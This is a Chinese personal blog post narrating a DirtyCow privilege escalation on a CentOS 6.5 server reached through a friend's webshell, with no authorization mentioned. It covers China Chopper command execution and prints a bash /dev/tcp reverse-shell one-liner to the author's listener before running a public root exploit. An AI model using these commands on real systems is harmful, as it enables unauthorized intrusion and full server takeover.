 # DirtyCow(脏牛)漏洞之实战


<!--more-->

---

## 1. 前言

这篇文章是小伙伴拿下了`webshell`，但因为是Linux服务器，一直提不了权，于是叫我看看。我通过`DirtyCow(脏牛)漏洞`拿到了管理员权限，由于是第一次接触`DirtyCow(脏牛)漏洞`，所以记录下了这篇文章。

---

## 2. webshell执行命令

* 首先通过已有的`大马webshell`执行命令，发现执行失败
![](/images/脏牛漏洞之实战/7053d5f13eee4136c7eba16fdc3b4cd0e9fc744487749049b33adbbc6fd3bd56.png " ")

* 写个`一句话木马`进去，再尝试用`菜刀`执行命令
![](/images/脏牛漏洞之实战/ed38269dc781335731b2155a7802ffe48010e766582a7781e95938eacac7b04f.png " ")

* 可以看到`菜刀`也不能执行命令，但是`菜刀`返回了服务器的内核版本和系统位数，搜索了一下，应该是`centos6.5`，本地搭建`centos6.5`显示的信息也证明了这一点
![](/images/脏牛漏洞之实战/5abf67a505ab3040843181e945442cbea4ad25722b67925c1568a82670c5556a.png " ")

* 搜索了`菜刀不能执行命令`，根据资料构造了一个`php`文件，通过`菜刀`上传了上去，发现果然能执行命令，并且系统版本的确是`centos6.5`
![](/images/脏牛漏洞之实战/3184611994bade6d3347836fcd77abe0431b1185ff069c9d0a1a8cfcfba880d5.png " ")

* 通过`webshell`查看当前权限，发现当前权限为`www`用户的权限，很多命令都不能执行
![](/images/脏牛漏洞之实战/19700208138fea59ffa06c611fdf64ed0d7914b7b1ce5836b5b0c49cc468830b.png " ")

---

## 3. 反弹shell

因为`脏牛漏洞`利用需要一个持续保持连接的`shell`，所以需要反弹一个`shell`

* 首先在自己的外网服务器用`nc`监听`6666`端口
![](/images/脏牛漏洞之实战/001c60489854a451c8ff8072c06c56a8bb5828cc378203fb02aa41d22a014691.png " ")

* 然后在`webshell`上执行`反弹shell命令`
![](/images/脏牛漏洞之实战/f826aeb22d9b2ecae75fd94585dcf702ada0f74b068234a1585e9aebb4af2539.png " ")

```shell
$ bash -i >& /dev/tcp/x.x.x.x/6666 0>&1         # 其中x.x.x.x是自己nc监听的服务器地址
```

* 执行命令之后，外网服务器获得一个`shell`
![](/images/脏牛漏洞之实战/329c21063b3769522dcce128f1d0b48ae95db004ec793353b3fce3dcce2496b5.png " ")

---

## 4. 提权

有了稳定的`shell`之后，就可以开始尝试提权了，这里`提权的exp`建议在本地编译，因为目标机上`www`权限可能没权限执行`gcc`命令或者没有安装`gcc`

* 本地编译测试
![](/images/脏牛漏洞之实战/50eb227c7ad4bf2bf2d32ae116b1502bc68854f462bc78ff38a72104b253a34f.png " ")

* 上传到目标机器上提权(需要上传到`/tmp/`目录下，因为`/tmp/`目录下有`执行权限`)
![](/images/脏牛漏洞之实战/49f3314cb8b8d3d192fb7ec0bfb067d101c8a07999ab7db2ae6bd05f865c71c1.png " ")

* 提权成功后，通过`firefart`账户登录，然后查看权限可看到是`root`权限
![](/images/脏牛漏洞之实战/033260465e4f70fb5042419219654b22660341d4e004c290f43fd2ac31733e70.png " ")

---

## 5. END
该篇文章没啥技术含量，就是拿人家的`exp`上去跑了一遍就提权成功了，相当于`脚本小子`了，所以严格来说这只是篇经历文章。有时间应该去分析下`脏牛漏洞`的漏洞成因，以后再说吧。

<br />

---

{{< admonition abstract "参考链接" >}}
菜刀不能执行命令解决方法：[https://www.webshell.cc/5328.html](https://www.webshell.cc/5328.html)

Linux下反弹SHELL的种种方式：[https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html](https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html)

利用脏牛漏洞详细提权过程：[http://zone.secevery.com/article/846](http://zone.secevery.com/article/846)
{{< /admonition>}}
